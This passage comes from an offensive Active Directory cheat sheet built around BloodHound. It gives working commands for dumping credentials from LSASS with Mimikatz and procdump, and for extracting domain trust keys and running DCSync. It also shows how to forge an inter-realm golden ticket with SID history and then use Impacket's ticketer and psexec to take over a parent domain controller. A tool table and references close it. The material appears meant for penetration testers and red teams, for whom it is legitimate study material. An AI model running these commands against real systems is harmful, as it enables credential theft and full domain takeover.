### 4.19 HasSession → Credential Theft via Lateral Movement



```powershell
# You have admin on the computer where DA is logged in
# Dump credentials
mimikatz # sekurlsa::logonpasswords

# Or dump LSASS remotely
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

### 4.20 Cross-Domain Trust Exploitation

```powershell
# Get trust key
mimikatz # lsadump::trust /patch
# or
mimikatz # lsadump::dcsync /domain:domain.local /user:child$

# Create inter-realm TGT (Golden Ticket with SID History)
mimikatz # kerberos::golden /user:Administrator /domain:child.domain.local /sid:<CHILD_SID> /krbtgt:<CHILD_KRBTGT_HASH> /sids:<ENTERPRISE_ADMINS_SID> /ptt

# Access parent domain
dir \\parent-dc.domain.local\C$
```

```bash
# Impacket — inter-realm with SID history
impacket-ticketer -nthash <TRUST_KEY> -domain child.domain.local -domain-sid <CHILD_SID> -extra-sid <PARENT_DA_SID> administrator
export KRB5CCNAME=administrator.ccache
impacket-psexec child.domain.local/administrator@parent-dc.domain.local -k -no-pass
```

---

## 5. Operational Workflow



### Marking Owned Nodes

```cypher
// Mark a user as owned
MATCH (u:User {name:'OWNEDUSER@DOMAIN.LOCAL'})
SET u.owned = true

// Mark a computer as owned
MATCH (c:Computer {name:'OWNED-PC.DOMAIN.LOCAL'})
SET c.owned = true

// Set custom high-value targets
MATCH (u:User {name:'SVC_MSSQL@DOMAIN.LOCAL'})
SET u.highvalue = true
```

---

## Tools Reference

| Tool | Purpose | URL |
|---|---|---|
| **SharpHound** | Windows AD collector | [https://github.com/BloodHoundAD/SharpHound](https://github.com/BloodHoundAD/SharpHound) |
| **BloodHound.py** | Linux AD collector | [https://github.com/dirkjanm/BloodHound.py](https://github.com/dirkjanm/BloodHound.py) |
| **BloodHound CE** | Community Edition (latest) | [https://github.com/SpecterOps/BloodHound](https://github.com/SpecterOps/BloodHound) |
| **Rubeus** | Kerberos abuse | [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus) |
| **Impacket** | AD/SMB tools suite | [https://github.com/fortra/impacket](https://github.com/fortra/impacket) |
| **PowerView** | AD enumeration | [https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit) |
| **Certipy** | AD CS attacks | [https://github.com/ly4k/Certipy](https://github.com/ly4k/Certipy) |
| **SharpGPOAbuse** | GPO exploitation | [https://github.com/FSecureLABS/SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) |
| **pywhisker** | Shadow Credentials | [https://github.com/ShutdownRepo/pywhisker](https://github.com/ShutdownRepo/pywhisker) |
| **Mimikatz** | Credential extraction | [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz) |
| **CrackMapExec / NetExec** | Multi-protocol pentesting | [https://github.com/Pennyw0rth/NetExec](https://github.com/Pennyw0rth/NetExec) |
| **PetitPotam** | Coerce NTLM auth | [https://github.com/topotam/PetitPotam](https://github.com/topotam/PetitPotam) |
| **SpoolSample** | Printer Bug | [https://github.com/leechristensen/SpoolSample](https://github.com/leechristensen/SpoolSample) |
| **Krbrelayx** | Kerberos relay | [https://github.com/dirkjanm/krbrelayx](https://github.com/dirkjanm/krbrelayx) |
| **gMSADumper** | GMSA password dump | [https://github.com/micahvandeusen/gMSADumper](https://github.com/micahvandeusen/gMSADumper) |

---

## References

- BloodHound Documentation: [https://bloodhound.readthedocs.io/](https://bloodhound.readthedocs.io/)
- The Dog Whisperer's Handbook: [https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/](https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/)
- ired.team — BloodHound: [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse)
- HackTricks — Active Directory: [https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/)
- SpecterOps Blog: [https://posts.specterops.io/](https://posts.specterops.io/)
- Certipy Documentation: [https://github.com/ly4k/Certipy](https://github.com/ly4k/Certipy)
- MITRE ATT&CK — Active Directory: [https://attack.mitre.org/matrices/enterprise/](https://attack.mitre.org/matrices/enterprise/)
